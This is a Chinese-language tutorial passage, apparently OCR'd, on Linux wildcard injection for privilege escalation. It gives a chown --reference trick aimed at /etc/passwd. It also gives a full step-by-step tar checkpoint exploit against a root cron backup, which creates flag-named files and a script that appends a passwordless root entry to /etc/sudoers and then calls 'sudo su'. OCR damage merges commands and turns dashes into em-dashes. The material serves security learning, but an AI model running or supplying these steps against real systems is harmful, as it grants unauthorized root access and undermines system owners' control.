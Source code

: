 cd some-directorychown root *

在这种情况下，让我们创建一个我们拥有的文件：

cd some-directory touch reference

然后我们创建一个文件，将注入标记：

touch — —reference=reference

如果在同一目录中创建到/ etc / passwd的符号链接，则/ etc / passwd的所有者也将是您，这将使您获得root shell。

其他
TAR
Tar是一个程序，可让您将文件收集到存档中。

在tar中，有“检查点”标志，这些标志使您可以在归档指定数量的文件后执行操作。由于我们可以使用通配符注入来注入那些标志，因此我们可以使用检查点来执行我们选择的命令。如果tar以root用户身份运行，则命令也将以root用户身份运行。

鉴于存在此漏洞，获得root用户特权的一种简单方法是使自己成为sudoer。sudoer是可以承担root特权的用户。这些用户在/etc/sudoers文件中指定。只需在该文件上追加一行，我们就可以使自己变得更轻松。

利用
假设我们有一个易受攻击的程序，并且使用cron定期运行该程序。该程序包含以下内容：

cd important-directorytar cf /var/backups/backup.tar *

进行根访问的步骤如下：

1）注入一个标志来指定我们的检查点

首先，我们将指定在归档一个文件之后，有一个检查点。稍后我们将对该检查点执行操作，但是现在我们仅告诉tar它存在。

让我们创建一个将注入标记的文件：

cd important-directorytouch — —checkpoint=1

2）编写恶意的Shell脚本

Shell脚本将/etc/sudoers在其后追加代码，这会使您变得更加无礼。

您需要添加到的行/etc/sudoers是my-user ALL=(root) NOPASSWD: ALL。

让我们创建shell脚本：

echo ‘echo “my-user ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > demo.sh

Shell脚本应与通配符位于同一目录中。

请注意，我们将必须更改my-user为要成为sudoer的实际用户。

3）注入一个指定检查点动作的标志

现在，我们将指定，当tar到达在步骤＃1中指定的检查点时，它应运行在步骤＃2中创建的shell脚本：

touch — “—checkpoint-action=exec=sh demo.sh”

4）root

等待，直到cron执行了脚本并通过键入以下内容获得root特权：

sudo su

rsync
Rsync是“快速，通用，远程（和本地）文件复制工具”，在linux系统上非常常见。

